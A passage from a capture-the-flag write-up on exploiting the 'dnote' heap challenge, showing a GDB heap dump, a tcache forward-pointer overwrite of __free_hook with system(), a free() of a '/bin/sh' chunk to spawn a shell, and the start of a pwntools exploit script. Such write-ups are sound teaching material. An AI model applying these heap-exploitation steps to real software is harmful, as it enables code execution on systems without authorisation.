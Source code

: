 ```
0xcacb10:   0x0000000000000000  0x0000000000000000
0xcacb20:   0x0000000000000000  0x0000000000000000
0xcacb30:   0x0000000000000000  0x0000000000000111
0xcacb40:   0x00007f43934d37cc  0x0000000000ca000a    <-- Forward pointer changed
0xcacb50:   0x0000000000000000  0x0000000000000000
0xcacb60:   0x0000000000000000  0x00000000000000e1
0xcacb70:   0x00007f43934d0c00  0x00007f43934d0c00    <-- Unsorted bin
0xcacb80:   0x0000000000000000  0x0000000000000000
0xcacb90:   0x0000000000000000  0x0000000000000000
0xcacba0:   0x0000000000000000  0x0000000000000000
```

We can see that it’s the correct position for our fake forward pointer. Let’s see if it’s the address of `__free_hook` or not:

![check_free_hook_address.png](/static/images/foobar-ctf-2022/images/check_free_hook_address.png)

![free_hook_address.png](/static/images/foobar-ctf-2022/images/free_hook_address.png)

that’s correct. Let’s move on the final stage to get shell!

### Stage 4: Overwrite `__free_hook` with system()

Now, we just need to malloc 2 chunk with the same size as 0x100 to get the address from tcache and with second malloc, we will overwrite the address of system to that. With the first chunk, we will put the string `/bin/sh` into it so we just reuse this chunk to execute system("/bin/sh"):

```
add(11, 0x100, b'/bin/sh')
add(12, 0x100, p64(libc.sym['system']))
```

And finally, we free() chunk index 11 and get shell:

```
free(11)
```

Full code:

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./dnote_patched", checksec=False)
libc = ELF("./libc-2.32.so", checksec=False)
ld = ELF("./ld-2.32.so", checksec=False)

context.binary = exe
context.log_level = 'debug'

def add(idx, size, data):
    p.sendlineafter('>> ', b'1')
    p.sendlineafter('no : ', str(idx).encode())
    p.sendlineafter('size : ', str(size).encode())
    p.sendlineafter('Name : ', data)

def show(idx):
    p.sendlineafter('>> ', b'2')
    p.sendlineafter('no : ', str(idx).encode())
    return p.recvuntil(b'\n', drop=True)

def free(idx):
    p.sendlineafter('>> ', b'3')
    p.sendlineafter('no : ', str(idx).encode())

```